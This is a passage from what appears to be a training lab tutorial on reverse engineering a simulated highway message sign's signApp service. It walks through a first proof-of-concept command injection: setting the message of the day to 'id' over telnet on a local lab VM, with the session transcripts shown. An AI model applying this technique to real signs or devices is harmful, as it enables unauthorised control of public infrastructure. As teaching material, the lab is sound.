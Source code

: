 Set your input command aside for now and restart the VMS system.  Refer to the "How to Power Off or Reboot the Variable Message Sign" section for a reminder on how to perform the restart.

#### Initial Proof-of-Concept Exploit

To start, let's have our exploit run a simple command that will prove to us that we are able to execute something.  Let's choose a command that will also give us a small bit of useful information back as well.  For now let's run the [`id`](http://man7.org/linux/man-pages/man1/id.1.html) command which will print the real and effective user and group IDs.  Since we will be running the command via the `signApp` process, the IDs we see will be those of the `signApp` process.

First, connect to the VMS Administrative Interface via the telnet client and change the message of the day to '`id`' as shown below.  Use the password your recovered earlier (it is shown as `<REDACTED>` below).

```
student@revm:~$ telnet 127.0.0.1 5555
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
The message of the day is: Changing lanes? Use yah blinkah.

If you enter the correct password you can change the message of the day.

password: <REDACTED>

You entered the correct password!

Enter the new message of the day: id

The message of the day is now: id

Connection closed by foreign host.
student@revm:~$ 
```

We receive an indication that the message of the day was successfully changed.  We should reconnect to verify that the `signApp` process is still running and that the message of the day is what we intend as shown below.

```
student@revm:~$ telnet 127.0.0.1 5555
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
The message of the day is: id

If you enter the correct password you can change the message of the day.

password: ^]
telnet> quit
Connection closed.
student@revm:~$ 
```
